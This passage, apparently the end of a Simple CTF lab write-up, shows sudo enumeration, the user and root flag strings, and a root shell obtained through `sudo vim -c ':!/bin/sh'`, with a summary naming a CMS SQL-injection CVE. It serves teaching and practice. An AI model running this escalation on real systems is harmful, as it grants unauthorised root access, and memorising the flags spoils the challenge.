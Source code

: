 ### Privilege Escalation Vector

Check for sudo privileges:

```bash
sudo -l
```

**Result:** User mitch can run `/usr/bin/vim` as root without a password!

### User Flag

Navigate to the home directory and locate the user flag:

```bash
ls /home
```

**User flag:** `G00d j0b, keep up!`

### Root Privilege Escalation

Since we can run vim as root without a password, we can exploit this for privilege escalation:

```bash
sudo vim -c ':!/bin/sh'
```

This command:

1. Opens vim with sudo privileges
    
2. Executes the `:!/bin/sh` command, which spawns a shell
    
3. Since vim is running as root, the shell will also be root
    

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756563245622/7294f6c1-faf6-4245-994b-c778db74b411.png align="center")

### Root Flag

With root access, we can now retrieve the root flag:

**Root flag:** `W3ll d0n3. You made it!`

## Summary

This SimpleCTF challenge demonstrated several important penetration testing concepts:

1. **Enumeration:** Thorough port scanning and service identification
    
2. **Vulnerability Research:** Identifying CVE-2019-9053 in CMS Made Simple
    
3. **SQL Injection:** Exploiting time-based blind SQL injection
    
4. **Credential Reuse:** Using discovered credentials for SSH access
    
5. **Privilege Escalation:** Exploiting sudo permissions with vim
    
